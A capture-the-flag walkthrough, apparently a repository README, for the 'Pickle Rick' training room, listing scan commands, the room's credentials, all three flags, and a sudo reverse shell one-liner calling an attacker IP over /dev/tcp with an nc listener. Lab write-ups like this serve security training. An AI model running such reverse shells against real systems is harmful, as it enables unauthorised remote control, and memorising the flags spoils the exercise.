




# Pickle Rick Walkthrough
  


## Nmap Scan 

- **Command:**  
  ```bash
  sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.44.71
  ```
- **Screenshot:**  
  

---

## Credentials

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`
- **robots.txt Entry:** `Wubbalubbadubdub`

---

## First Ingredient

- **Command Used:**  
  ```bash
  less Sup3rS3cretPickl3Ingred.txt
  ```
- **Flag:**  
  ```
  mr. meeseek hair
  ```
- **Screenshot:**  
  

---

## Second Ingredient

- **Command Used:**  
  ```bash
  less /home/rick/second\ ingredients
  ```
- **Flag:**  
  ```
  1 jerry tear
  ```
- **Screenshot:**  
  

---

## Third Ingredient

- **Reverse Shell Command:**  
  ```bash
  sudo bash -c 'bash -i >& /dev/tcp/10.8.76.195/1111 0>&1'
  ```
- **Listener Command:**  
  ```bash
  nc -lvnp 1111
  ```
- **Flag:**  
  ```
  fleeb juice
  ```
- **Screenshot:**  
  

  ## Tools Used to Complete the Room

  1. **Nmap**  
    For network scanning and service enumeration.

  2. **Gobuster**  
    To perform directory and file brute-forcing.

  3. **Linux Commands**  
    Common commands like `less`, `ls -al`, `cd`, etc., for file and directory navigation.

  4. **Reverse Shell Generator**  
    A browser extension used to craft reverse shell payloads.

  5. **Nikto**  
    A web server scanner used to identify vulnerabilities and misconfigurations.


## Happy Hacking

<div align="center">
  
</div>
